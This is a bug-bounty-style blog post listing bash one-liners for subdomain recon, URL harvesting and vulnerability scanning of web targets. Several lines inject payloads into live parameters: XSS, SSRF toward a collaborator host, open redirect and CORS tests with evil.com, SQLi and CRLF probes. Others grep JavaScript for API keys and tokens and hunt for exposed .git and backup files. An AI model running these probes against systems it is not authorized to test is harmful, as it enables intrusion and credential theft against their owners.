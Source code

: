 ```yaml
---
title: "Hacking One Liners"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [one-liners, subfinder, httpx, nuclei, ffuf, gau, gospider, naabu, bash, shuffledns, dnsx, notify, recon, automation, js, token-hunting]
order: 3
image: /assets/images/Cyber-Security/One-Liners.png
---
```


A curated collection of powerful, compact one-liners used throughout reconnaissance, scanning, and early exploitation workflows. These are quick-fire tools for chaining recon steps, automating scans, or rapidly discovering weak points.

---

## 🔍 Subdomains → Live Hosts → Scan

```bash
subfinder -d example.com -silent | httpx -silent | nuclei -silent -t ~/nuclei-templates -o results.txt
```

## 🔁 Passive URLs → Filter → Nuclei

```bash
gau example.com | grep -iE '\.php|\.asp|\.aspx|\.jsp' | httpx -silent | nuclei -silent -o tech-findings.txt
```

## ⚡ Quick Port Discovery + Probing

```bash
naabu -host example.com -top-ports 100 | httpx -silent -title -status-code
```

## 🕸️ Subdomains → Resolve → Probing → Nuclei

```bash
subfinder -d example.com -silent | dnsx -silent | httpx -silent | nuclei -t cves/ -o cve-scan.txt
```

## 🧪 Wordlist Fuzz → Live Endpoint Test

```bash
ffuf -u https://example.com/FUZZ -w common.txt -mc 200 | awk '{print $1}' | httpx -silent | nuclei -o ffuf-discovered.txt
```

## 🧠 Passive + Active URL Collect + Scan

```bash
(subfinder -d example.com; gau example.com) | sort -u | httpx -silent | nuclei -o passive-active-results.txt
```

## 🧼 Filter JavaScript Files for Review

```bash
gau example.com | grep '\.js$' | sort -u | httpx -silent -mc 200 | tee js-live.txt
```

## 🛠️ Crawl → Extract URLs → Scan

```bash
gospider -s https://example.com -t 10 -q | grep -oP 'https?://[^ ]+' | httpx -silent | nuclei -silent -o spider-findings.txt
```

## 🔓 Nuclei Fast Severity Filter

```bash
cat live.txt | nuclei -severity high,critical -silent -o high-crit.txt
```

## 🧪 JS → Endpoint Extraction (deep)

```bash
cat js-live.txt | xargs -n1 -I{} curl -s {} | grep -oP 'https?://[^\"]+' | sort -u
```

## 🎣 Open Redirect Detection

```bash
gau target.com | grep "=" | qsreplace 'https://evil.com' | httpx -silent -location -fr -mc 301,302 | grep 'evil.com'
```

## 🧠 Param Mining + Fuzz

```bash
gau target.com | uro | grep "=" | gf xss | qsreplace 'FUZZ' | ffuf -u FUZZEDURL -w payloads.txt -mc 200
```

## 🧪 SSRF Testing

```bash
cat urls.txt | gf ssrf | qsreplace 'http://your-burp-collab.com' | httpx -silent -fr
```

## 🪝 XSS Reflected Testing

```bash
cat urls.txt | grep "=" | qsreplace '<svg onload=alert(1)>' | httpx -silent -mc 200 -sr | grep '<svg onload=alert(1)>'
```

## 🗂️ Sitemap Extractor

```bash
curl -s https://target.com/sitemap.xml | grep -oP '(?<=<loc>).*?(?=</loc>)'
```

## 🗃️ Git Folder Check

```bash
httpx -l subs.txt -path /.git/config -mc 200
```

## 🔁 HTTP Method Tester

```bash
for m in GET POST PUT DELETE OPTIONS TRACE PATCH; do curl -X $m -I https://target.com | grep HTTP; done
```

## 🧾 Form Extraction

```bash
cat alive.txt | xargs -n1 -I{} curl -s {} | pup 'form json{}' | jq .
```

## 🔐 CORS Misconfig Check

```bash
curl -H 'Origin: https://evil.com' -I https://target.com | grep 'Access-Control-Allow-Origin'
```

## 🧬 SQLi Prober

```bash
gau target.com | grep "=" | qsreplace "'" | httpx -silent -mc 500,403,400
```

## ⚠️ CRLF Injection Test

```bash
cat urls.txt | qsreplace '%0d%0aPoC:CRLF' | httpx -silent -fr -mc 200 | grep 'PoC:CRLF'
```

## 📬 Email Discovery

```bash
gau target.com | xargs -n1 curl -s | grep -Ei '[a-z0-9._%+-]+@[a-z0-9.-]+\.[a-z]{2,}' | sort -u
```

## 🪛 Find Secrets in JS

```bash
cat js-live.txt | xargs -n1 curl -s | grep -Eo 'API_KEY|api_key|secret|Bearer [A-Za-z0-9\\-_\\.]+' | sort -u
```

## 📂 Extension/Backup File Discovery

```bash
gau target.com | grep -iE '\.zip|\.gz|\.sql|\.tar|\.bak' | httpx -silent -mc 200
```

## 🧾 Wayback Param Harvesting

```bash
gau target.com | cut -d '?' -f2 | cut -d '&' -f1 | sort -u
```

## 🔗 Dangling Subdomain Takeover Check

```bash
subfinder -d target.com -silent | dnsx -a -cname -resp-only | grep -iE 'github|heroku|amazonaws'
```

## 🪞 Mirror Target Webpage

```bash
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://target.com
```

## 🧼 Clean Noise from URLs

```bash
cat all-urls.txt | grep -vE '\.(png|jpg|jpeg|gif|svg|css|ico|woff|ttf|pdf)$' | sort -u
```

## 🧹 Dedupe + Filter Live URLs

```bash
cat urls.txt | sort -u | httpx -silent -mc 200 | anew final.txt
```